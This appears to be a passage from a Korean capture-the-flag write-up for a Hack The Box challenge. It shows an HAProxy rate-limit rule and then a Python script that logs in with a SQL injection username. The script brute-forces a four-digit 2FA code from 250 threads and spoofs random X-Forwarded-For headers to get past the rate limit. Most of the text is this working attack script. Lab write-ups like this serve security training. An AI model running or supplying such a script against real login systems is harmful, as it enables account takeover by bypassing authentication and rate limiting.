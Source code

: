 ```http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }```
  - 해당 시나리오로 짠 코드는 다음과 같습니다.
```
import requests
from bs4 import BeautifulSoup
import threading
import time
import random

corr = 'HTB'

url = 'http://167.99.85.216:30511//auth'

login_end = '/login'
veri_end = '/verify-2fa'

login = url + login_end
veri = url + veri_end

data = {
    'username': 'admin\'-- -',
    'password': '1'
}

login_res = requests.post(login, data=data)

total_threads = 250

def brute_force():
    random_ip = ".".join(str(random.randint(0,255)) for _ in range(4))
    session = requests.Session()
    for i in range(9999):
        time.sleep(0.5)
        current_password = f'{random.randint(0, 9999):04d}'
        data2 = {
            '2fa-code': current_password
        }
        headers = {
            'X-Forwarded-For':'{}'.format(random_ip)
        }
        veri_res = session.post(veri, data=data2,headers=headers)
        if corr in veri_res.text:
            print("ok")
            print(veri_res.text)
            break

start = time.perf_counter()
threads = []
for _ in range(total_threads):
    t = threading.Thread(target=brute_force)
    t.start()
    threads.append(t)
for thread in threads:
    thread.join()

print('Brute force completed.')
